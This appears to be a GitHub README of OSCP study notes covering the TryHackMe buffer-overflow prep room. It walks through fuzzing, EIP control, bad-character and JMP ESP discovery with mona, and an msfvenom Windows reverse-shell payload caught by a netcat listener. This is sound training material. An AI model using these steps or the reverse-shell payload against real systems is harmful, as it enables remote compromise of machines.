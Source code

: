 # oscp_bof-prep
Buffer Overflow preparation for OSCP

# Task: (TryHackMe) oscp.exe (OVERFLOW1-10)
# Fuzzing
1. Run fuzzer.py & make a note of the largest number of bytes that were sent
   * Crashed at 2000 bytes

# Crash replication & Controlling EIP
1. Generate a cyclic pattern of a length 400 bytes longer than the string that crashed the server (2000 + 400)
   * ./pattern_create.rb -l 2400

2. Copy the output and place it into the payload var of exploit.py
3. Restart the app in Immunity Debugger & Run exploit.py
4. While the unique buffer is on the stack, use mona's findmsp command with the distance arg. set to the pattern length (2400)
   * !mona config -set workingfolder c:\mona\%p
   * !mona findmsp -distance 2400


5. Set the offset var to this value in exploit.py(1978)
6. Set the payload var to an empty string
7. Set the retn var to “BBBB”
8. Restart the app in Immunity & Run exploit.py (EIP should be overwritten with 4 B's (e.g 42424242)


# Finding Bad Characters
1. Generate a bytearray with mona (& exclude null byte \x00 by default), note the location of bytearray.bin
   * !mona bytearray -b “\x00”
3. Generate an identical bytearray with bytearray.py
4. Update exploit.py and set the payload var to the string of badchars the script generates
5. Restart the app in Immunity & Run exploit.py, make note of the address to which ESP register points
   * !mona compare -f C:\mona\oscp\bytearray.bin -a [ESP]

5. Generate a new bytearray with mona, specifying the found badchars along with \x00 & Update payload var in exploit.py and remove the new badchars as well
   * !mona bytearray -b “\x00\x07\x08\x2e\x2f\xa0\xa1”
6. Restart app & Run exploit
7. Do this until results status returns “Unmodified”. This indicates that no more badchars exist.


# Finding a Jump Point
1. Run the following mona command with all the identified badchars (including \x00)
   * !mona jmp -r esp -cpb “\x00\x07\x08\x2e\x2f\xa0\xa1”


2. Choose an address and update exploit.py, setting the retn var to the address, written backwards (little endian).
   1) \x62\x50\x11\xaf -> \xaf\x11\x50\x62

# Generate Payload
1. msfvenom (LHOST=kali_vpn_ip, -b with all the identified badchars)
   * msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x08\x2e\x2f\xa0\xa1" -f c
2. Update payload var in exploit.py

# Prepend NOPs
1. padding = “\x90” * 16

# Exploit
1. start netcat listener on attacker machine (nc -nlvp 4444)
2. Restart app in immunity & Run exploit.py

# Reference
* https://tryhackme.com/room/bufferoverflowprep
* https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst